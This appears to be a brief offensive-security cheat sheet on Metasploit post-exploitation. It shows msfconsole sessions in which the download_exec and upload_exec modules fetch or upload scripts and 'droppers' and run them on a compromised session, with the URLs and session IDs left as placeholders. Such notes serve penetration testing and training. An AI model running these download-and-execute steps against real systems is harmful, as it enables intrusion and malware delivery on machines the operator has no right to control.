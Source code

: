 # Metasploit

Search Tag(s): #post-exploitation #enumeration-and-discovery #metasploit-framework #linux

TODO: Fill this info

Download and execute bash file

```
msf > use post/linux/manage/download_exec

msf post(linux/manage/download_exec) > options 

Module options (post/linux/manage/download_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on
   URL                       yes       Full URL of file to download.


View the full module info with the info, or info -d command.

msf post(linux/manage/download_exec) > set session <session_ID>

msf post(linux/manage/download_exec) > set url <URL>

msf post(linux/manage/download_exec) > run
```

Upload script and execute with arguments.

```
msf > use post/multi/manage/upload_exec

msf post(multi/manage/upload_exec) > options 

Module options (post/multi/manage/upload_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   ARGS                      no        Command-line arguments to pass to the uploaded file
   LPATH                     yes       Local file path to upload and execute
   RPATH                     no        Remote file path on target (default is basename of LPATH)
   SESSION                   yes       The session to run this module on
   TIMEOUT  60               yes       Timeout for command execution


View the full module info with the info, or info -d command.

msf post(multi/manage/upload_exec) > set lpath /path/to/local/script.sh

msf post(multi/manage/upload_exec) > set args "[arguments]"

msf post(multi/manage/upload_exec) > set rpath /path/to/remote/script.sh

msf post(multi/manage/upload_exec) > set session <session_ID>

msf post(multi/manage/upload_exec) > run
```

Upload and execute droppers.

```
msf > use post/multi/manage/upload_exec

msf post(upload_exec) > options

msf post(multi/manage/upload_exec) > set lpath /path/to/local/binary

msf post(multi/manage/upload_exec) > set rpath /path/to/remote/binary

msf post(multi/manage/upload_exec) > set session <session_ID>

msf post(multi/manage/upload_exec) > run
```

---
## References

- [Rapid7: Metasploit Framework Upload Exec Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/manage/upload_exec.md)